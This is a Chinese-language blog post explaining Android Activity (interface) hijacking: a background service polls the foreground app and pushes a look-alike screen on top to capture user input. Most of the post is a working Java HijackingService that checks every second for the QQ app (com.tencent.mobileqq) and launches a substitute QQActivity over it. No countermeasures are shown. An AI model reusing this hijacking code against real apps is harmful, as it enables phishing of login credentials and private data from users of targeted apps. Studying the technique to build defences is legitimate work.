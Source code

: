 ```yaml
---
layout:     post
title:      模拟Android界面劫持
subtitle:    "Android中最常见的攻击手段"
date:       2018-10-28
author:     Toeii
header-img: img/post-bg-2015.jpg
catalog: true
tags:
    - Android
---
```


## 前言
今天一款小众的搜图app上找一点图片资源，突然页面就弹出了一个全屏的“菠菜”广告页，刚开始还在纳闷这是什么需求这么硬核，后来才反应过来应该是界面被劫持了。出于好奇心，自己也研究一下。在这里记录与分享

## 介绍

什么是Activity劫持

    一般情况下分为两种

    第一种是，手机里面安装了恶意程序，恶意程序会注册一个Receiver，响应android.intent.action.BOOT_COMPLETED事件，这个Service会启动一个定时器，不停的循环查询当前运行的进程。一旦当前的进程正是我们要劫持的，并运行在前台，立马使用FLAG_ACTIVITY_NEW_TASK启动自己的恶意应用界面处于栈顶，用户看到的就是恶意应用的界面，获取用户输入的隐私信息，并发送到服务器。这篇文章有详细介绍《Android之Activity界面劫持反劫持》

    第二种是，Android中启动一个Activity常用的方法是startActivity。startActivity的参数时Intent，这个Intent有两种设置方式
        通过设置action，系统找到接收该action的Activity，然后启动
        明确指定要启动的Activity所在的包和Activity的对应的类名。

当一个应用程序通过action来启动某个Activity时，另一个恶意应用可以创建一个同样的action来接收Activity。在Android应用中，如果存在多个Activity接收同一个action，那么就会提供一个选择列表让用户进行选择。一旦用户选错了，就进入了恶意程序的界面，当用户输入隐私信息，有可能被恶意程序将数据发送给服务器，导致用户信息泄露。

## 实现思路
在Service中开启一个定时任务，并且不断的获取进程数据。匹配到想要劫持的进程时，打开新的页面劫持该App。

下面是代码实现：
```java
public class HijackingService extends Service {
    @Nullable
    @Override
    public IBinder onBind(Intent intent) {
        return null;
    }

    private boolean hasStart = false;
    //劫持列表
    HashMap<String, Class<?>> classStores = new HashMap<>();
    Handler handler = new Handler();
    Runnable mTask = new Runnable() {
        @Override
        public void run() {
            hijackPackage(getApplication());
            handler.postDelayed(mTask, 1000);
        }
    };

    @Override
    public void onCreate() {
        super.onCreate();
        //获取所有已安装应用 package 信息
        getItems(getApplication());
    }

    @Override
    public void onStart(Intent intent, int startId) {
        super.onStart(intent, startId);
        Log.w("hijacking", "劫持服务开启");
        if (!hasStart){
            //添加想要劫持的应用
            classStores.put("com.tencent.mobileqq", QQActivity.class);
            handler.postDelayed(mTask, 1000);
            Log.w("hijacking", "定时劫持任务开始执行");
            hasStart = true;
        }

    }

    @Override
    public void onDestroy() {
        super.onDestroy();
        Log.w("hijacking", "劫持服务停止");
        hasStart = false;
        HijackingApplication.clearProgressHijacked();
        handler.removeCallbacks(mTask);
        Log.w("hijacking", "定时劫持任务停止");
    }

    //获取已安装的应用信息
    public ArrayList<HashMap<String, Object>> getItems(Context context) {
        PackageManager pckMan = context.getPackageManager();
        ArrayList<HashMap<String, Object>> items = new ArrayList<HashMap<String, Object>>();
        List<PackageInfo> packageInfo = pckMan.getInstalledPackages(0);
        Log.w("hijacking", "------------打印已安装应用信息-----------------");
        for (PackageInfo pInfo : packageInfo) {
            HashMap<String, Object> item = new HashMap<String, Object>();
            Log.w("hijacking", "-----------------------------");
            item.put("appimage", pInfo.applicationInfo.loadIcon(pckMan));
            Log.w("hijacking", "appimage-->"+pInfo.applicationInfo.loadIcon(pckMan));

            item.put("packageName", pInfo.packageName);
            Log.w("hijacking", "packageName-->"+pInfo.packageName);

            item.put("versionCode", pInfo.versionCode);
            Log.w("hijacking", "versionCode-->"+pInfo.versionCode);

            item.put("versionName", pInfo.versionName);
            Log.w("hijacking", "versionName-->"+pInfo.versionName);

            item.put("appName", pInfo.applicationInfo.loadLabel(pckMan).toString());
            Log.w("hijacking", "appName-->"+pInfo.applicationInfo.loadLabel(pckMan).toString());
            Log.w("hijacking", "-----------------------------");
            items.add(item);
        }
        Log.w("hijacking", "-------------打印已安装应用信息完毕----------------");

        return items;
    }

    private void hijackPackage(Context context){
        //获取一个在前台运行应用的 List
        List<AndroidAppProcess> runningForegroundApps = AndroidProcesses.getRunningForegroundApps(context);
        if (runningForegroundApps.size() > 0) {

            Log.w("hijacking", "正在劫持");

            for (AndroidAppProcess androidAppProcess : runningForegroundApps){
                String packageStr = androidAppProcess.getPackageName();
                //如果已经劫持过当前应用，则不继续劫持
                if (!HijackingApplication.hasProgressBeHijacked(packageStr)){
                    //前台运行的应用是否在劫持列表中
                    if (classStores.containsKey(packageStr)){
                        //已经劫持过应用添加到 HijackingApplication
                        HijackingApplication.addProgressHijacked(packageStr);
                        Log.w("hijacking", "已经劫持-->"+packageStr);

                        Intent jackingIsComing = new Intent(getBaseContext(), classStores.get(packageStr));
                        jackingIsComing.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
                        getApplication().startActivity(jackingIsComing);
                        break;
                    }
                }
            }

            Log.w("hijacking", "一次劫持结束");

        }
    }
}
```




